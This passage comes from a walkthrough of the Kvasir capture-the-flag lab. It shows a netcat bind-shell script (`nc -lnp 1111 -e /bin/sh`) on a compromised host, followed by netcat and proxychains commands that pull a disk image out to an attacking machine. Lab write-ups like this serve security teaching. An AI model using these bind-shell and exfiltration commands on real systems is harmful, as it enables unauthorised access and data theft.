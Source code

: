 {{< figure src="/images/kvasir_network_graph_6.png" >}}

## busting kefka
The shell on `adm` as `locke` was nothing more than a `/bin/sh` instance executed over `netcat`. This can be seen in the `littleShell.sh` file in `/home/locke`:

```bash
cat littleShell.sh
#!/bin/sh

/bin/nc -lnp 1111 -e '/bin/sh'
```

Other interesting files were all in `locke`'s home directory:

```bash
pwd
/home/locke
ls -lh
total 332K
-rw-r--r-- 1 locke locke 322K Aug 10 10:32 diskimage.tar.gz
-rwxr--r-- 1 locke locke   42 Aug 13 17:59 littleShell.sh
-rw-r--r-- 1 locke locke  110 Sep  4 13:38 note.txt
```

The `note.txt` file:

```bash
cat note.txt
Looks like Kefka may have been abusing our removable media policy.  I've extracted this image to have a look.
```

Awesome. That gives me a pretty clear idea of where this may be going. My guess was I needed to find something interesting in the `diskimage.tar.gz` file to progress. The first thing I had to do was get a local copy of `diskimage.tar.gz`. Out comes `netcat` again :) I hosted the file on `tcp/4444` on **192.168.4.100** with `nc -lvp 4444 < diskimage.tar.gz | xxd -p`. I then read the file on my attacking machine with `timeout 5 proxychains nc 192.168.4.100 4444 > diskimage.tar.gz` (I gave the file 5 seconds to come over before killing the connection, allowing my other netcat shell to stay alive).

I had to carve out the string *ProxyChains-3.1 (http://proxychains.sf.net)* out of the archive I get locally on disk due to the proxychains command adding this. Luckily it was a simple `dd` on the top line and it was gone :)

I then extracted the archive and ran the resultant archive through `file`:

```bash
root@kali:~# tar xvf diskimage.tar.gz
diskimage

root@kali:~# file -k diskimage
diskimage: x86 boot sector, code offset 0x3c, OEM-ID "MSDOS5.0", sectors/cluster 2, root entries 512, Media descriptor 0xf8, sectors/FAT 238, heads 255, hidden sectors 63, sectors 122031 (volumes > 32 MB) , reserved 0x1, serial number 0xad6f8bf, unlabeled, FAT (16 bit) DOS executable (COM), boot code
```
